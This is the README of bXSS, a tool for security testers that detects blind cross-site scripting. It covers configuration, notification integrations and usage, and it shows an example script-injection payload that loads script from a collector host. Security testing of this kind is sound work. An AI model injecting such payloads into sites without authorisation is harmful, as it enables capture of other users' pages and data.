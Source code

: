 # bXSS

<a href="https://codeclimate.com/github/LewisArdern/bXSS/maintainability"><img src="https://api.codeclimate.com/v1/badges/a8e30934a0be1952891c/maintainability" /></a>

bXSS is a utility which can be used by bug hunters and organizations to identify [Blind Cross-Site Scripting](https://ardern.io/2017/12/10/blind-xss/).

bXSS supports the following:

- [Intrusive Levels](./Images/intrusion.jpg)
- [Email](./Images/email.jpg)
  - [Auto report via /.well-known/security.txt](./Images/securitytxt.jpg)
- [Twilio](./Images/sms.jpg)
- [Slack](./Images/slack.jpg)
- [Webex Teams](./Images/cisco.jpg)
- [Discord](./Images/discord.jpg)
- [Twitter](./Images/twitter.jpg)
- [Payload Generation](./Images/payloads.jpg)
- [Save locally](./Images/file.jpg)

# Requirements

## Baseline Requirements

- A server you control
- A usable domain
- Node.js and Express

## Optional Requirements

- A SSL/TLS Certificate, free from [Lets Encrypt](https://letsencrypt.org) (Optional)
- A [Gmail](https://gmail.com) account, to send reports via Nodemailer (Optional)
- A [Twilio Account](https://www.twilio.com/sms) (Optional)
- A [Slack Token](https://api.slack.com/docs/token-types) (Optional)
- A [Cisco Token](https://developer.webex.com/docs/api/v1/people/get-my-own-details) (Optional)
- A [Discord Token](https://github.com/reactiflux/discord-irc/wiki/Creating-a-discord-bot-&-getting-a-token) (Optional)
- A [Twitter Developer Account](https://developer.twitter.com/en/apply/user) (Optional)

# Step-Up

## Default

- cd bXSS && npm install
- Update The Configuration || Environment Variables
  - Domain
    - config.url = Domain intended for use e.g ardern.io
    - config.port = Port to run the Node.js app e.g 3030
  - Twilio <b>(Optional, if you don't want to use Twilio just delete all Twilio references from the config)</b>
    - config.twilio.accountSid = [Twilio SID](https://support.twilio.com/hc/en-us/articles/223136607-What-is-an-Application-SID)
    - config.twilio.authToken = [Twilio Auth Token](https://support.twilio.com/hc/en-us/articles/223136027-Auth-Tokens-and-how-to-change-them)
    - config.twilio.to = ['+447500000000','+0018056826043'] Your telephone number(s)
    - config.twilio.from = [Twilio telephone number](https://support.twilio.com/hc/en-us/articles/223136207-Getting-started-with-your-new-Twilio-phone-number)
  - Slack <b>(Optional, if you don't want to use Slack just delete all Slack references from the config)</b>
    - config.slack.token = [Slack Token](https://api.slack.com/docs/token-types)
    - config.slack.channel = [Channel you want to send the report to](https://get.slack.help/hc/en-us/articles/201402297-Create-a-channel)
    - Slack permissions required [channels:read](https://api.slack.com/scopes/channels:read) and [chat:write](https://api.slack.com/scopes/chat:write)
  - Cisco <b>(Optional, if you don't want to use Cisco just delete all Cisco references from the config)</b>
    - config.ciscoSpark.token = [Cisco Token](https://developer.webex.com/docs/api/v1/people/get-my-own-details)
    - config.ciscoSpark.sparkRoom = ['email1@domain.com','email2@domain.com']
  - Discord <b>(Optional, if you don't want to use Discord just delete all Discord references from the config)</b>
    - Steps to create a bot:
      - Visit https://discordapp.com/developers/applications/
      - Create a new application (e.g bXSSForCompany)
      - Make a note of your CLIENT ID
      - Select 'Bot'
        - Choose a USERNAME and press 'Click to Reveal Token' (copy the token)
      - Visit the following URL (update with your CLIENT ID) https://discordapp.com/oauth2/authorize?&client_id=YOUR_CLIENT_ID&scope=bot&permissions=2048
      - Select the server you want your bot to join and authorize
      - Update the following values below for the bot to post to the 'text channel' e.g ('general')
    - config.discord.token = 'your bot token'
    - config.discord.channel = 'channel you want it to join, e.g general'
  - Twitter <b>(Optional, if you don't want to use Twitter just delete all Twitter references from the config)</b>
    - config.twitter.consumer_key = API Key
    - config.twitter.consumer_secret = API Secret Key
    - config.twitter.access_token_key = Application Access Token
    - config.twitter.access_token_secret = Application Access Token Secret
    - Permissions (Write)
    - config.twitter.recipient_id = Twitter User ID, which can be found [here](https://twitter.com/settings/your_twitter_data)
  - Gmail <b>(Optional, if you don't want to use Gmail just delete all Gmail references from the config)</b>
    - config.gmail.user = Gmail Username
    - config.gmail.pass = Gmail Password
    - config.gmail.to = ['email1@domain.com','email2@domain.com'] Where you want to send the emails
    - config.gmail.from = Who sent the message, usually Gmail Username
  - Rename configExample.js to config.js
- Start your app (depending on your preference)
  - node app.js
  - pm2 start app.js
  - nodemon app.js

## Additional Steps (Optional)

- Obtain a let's Encrypt cert
  - [Manual](https://gist.github.com/davestevens/c9e437afbb41c1d5c3ab)
  - [certbot](https://medium.com/@yash.kulshrestha/using-lets-encrypt-with-express-e069c7abe625)
- I would recommend looking at setting up a [reverse proxy](https://www.nginx.com/resources/glossary/reverse-proxy-server/), for example in [NGINX](https://pastebin.com/nCVSh5iv) and skip the next step as I wouldn't want anyone to run express as root.
- Using Node.js
  - Update Configuration
    - config.letsEncrypt.TLS = true;
    - config.letsEncrypt.publicKey = \$Path/fullchain.pem
    - config.letsEncrypt.privateKey = \$Path/privkey.pem
    - config.letsEncrypt.ca = \$Path/chain.pem
- Start your app (depending on your preference)
  - node app.js
  - npm2 start app.js
  - nodemon app.js

# Using

Once the application is funcitonal, you would just identify sites you are authorized to test and start to inject different payloads that will attempt to load your resource, the easiest example is:

```
"><script src="https://example.com/m"></script>
```

The application has five core functions to utilize:

- POST - /m (Captures DOM information)
- GET - /m (Loads the payload)
- GET - /mH (Captures HTTP interactions)
- Payloads - /payloads (Gives payloads you can use for testing blind xss)
- Everything else - Loads alert(1)

# Contribute?

If you like the project, feel free to contribute or if you want to suggest improvements or notice any problems, file a [issue](https://github.com/LewisArdern/bXSS/issues).
